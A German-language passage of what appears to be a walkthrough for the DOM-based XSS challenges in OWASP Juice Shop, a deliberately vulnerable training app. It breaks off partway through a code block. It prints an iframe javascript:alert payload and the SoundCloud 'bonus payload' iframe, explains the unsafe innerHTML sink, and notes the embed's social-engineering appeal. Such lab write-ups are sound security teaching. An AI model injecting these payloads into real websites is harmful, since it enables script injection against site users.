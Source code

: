 ### 📝 Beschreibung
DOM-basierte XSS-Schwachstellen entstehen, wenn JavaScript unsichere Benutzereingaben direkt in das DOM schreibt. Die Juice Shop ist anfällig für verschiedene XSS-Payloads.

### 🔍 Methode 1: Klassischer iframe XSS

```javascript
// Einfacher iframe-basierter XSS Payload
<iframe src="javascript:alert(`xss`)">
```

### 📝 Wie funktioniert's?

1. **Eingabefeld finden**: Suche nach Feldern, die HTML akzeptieren (z.B. Suchfeld, Kommentare)
2. **Payload einfügen**: Gib den iframe-Code ein
3. **Ausführung**: Der Browser führt das JavaScript im iframe aus

### 🛠️ Technische Erklärung

```javascript
// Was passiert im Hintergrund:
// 1. Unsichere DOM-Manipulation
element.innerHTML = userInput; // GEFÄHRLICH!

// 2. Der iframe wird gerendert
// <iframe src="javascript:alert(`xss`)">

// 3. JavaScript im src-Attribut wird ausgeführt
// javascript: Protocol Handler löst Code-Ausführung aus
```

### 🔍 Methode 2: Bonus Payload - SoundCloud iframe

```html
<iframe width="100%" height="166" scrolling="no" frameborder="no" allow="autoplay" 
        src="https://w.soundcloud.com/player/?url=https%3A//api.soundcloud.com/tracks/771984076&color=%23ff5500&auto_play=true&hide_related=false&show_comments=true&show_user=true&show_reposts=false&show_teaser=true">
</iframe>
```

### 🎯 Warum funktioniert dieser Payload?

1. **Legitimer Content**: SoundCloud-Player sieht harmlos aus
2. **Autoplay**: Musik startet automatisch = Beweis für XSS
3. **Visuelle Bestätigung**: Großer, sichtbarer iframe
4. **Social Engineering**: Benutzer denken es ist gewollter Content

### 🔍 Exploit-Analyse

```javascript
// Schritt-für-Schritt Analyse des Bonus Payloads
function analyzePayload() {
    const payload = {
        // iframe Attribute
        width: "100%",           // Volle Breite
        height: "166",           // Standard SoundCloud Höhe
        scrolling: "no",         // Kein Scrolling
        frameborder: "no",       // Kein Rahmen
        allow: "autoplay",       // Autoplay erlaubt
        
        // SoundCloud API Parameter
        src: {
            baseUrl: "https://w.soundcloud.com/player/",
            params: {
```